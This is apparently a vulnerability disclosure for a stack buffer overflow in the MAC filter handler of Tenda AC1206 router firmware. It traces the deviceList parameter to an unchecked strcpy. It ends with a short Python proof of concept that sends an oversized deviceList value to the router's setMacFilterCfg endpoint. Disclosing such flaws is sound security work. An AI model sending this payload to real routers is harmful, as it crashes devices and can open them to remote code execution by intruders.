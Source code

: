 # Tenda AC1206 formSetMacFilterCfg
### Overview
vendor: Tenda
product: AC1206
version: 15.03.06.23
type: Stack Overflow
### Vulnerability Description
Tenda AC1206 15.03.06.23 were discovered to contain a stack overflow via the deviceList parameter in the formSetMacFilterCfg function.

### Vulnerability details
In function formSetMacFilterCfg line 46, it reads in a user-provided parameter `deviceList`. The variable `v3` is passed as a parameter to the `set_macfilter_rules` function. Function `set_macfilter_rules` takes this variable as a parameter and passes it into function `set_macfilter_rules_by_one`. Function `set_macfilter_rules_by_one` calls function `parse_macfilter_rule`, where the first parameter is variable `a2`(actually `v3`) and the second parameter is the stack-based buffer `s_2`. In function `parse_macfilter_rule`, the variable `s`(actually `v3`) is passed to the `strcpy` function without any length check, which may overflow the stack-based buffer `dest`(actually `s_2`). As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/1.png)
![](images/2.png)
![](images/3.png)
![](images/4.png)

### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/setMacFilterCfg"

data = {
    "macFilterType": "white",
    "deviceList": "a" * 1000 + "\r" + "b" * 1000
}


response = requests.get(url, params=data)
print(response.text)
```

![](images/5.png)
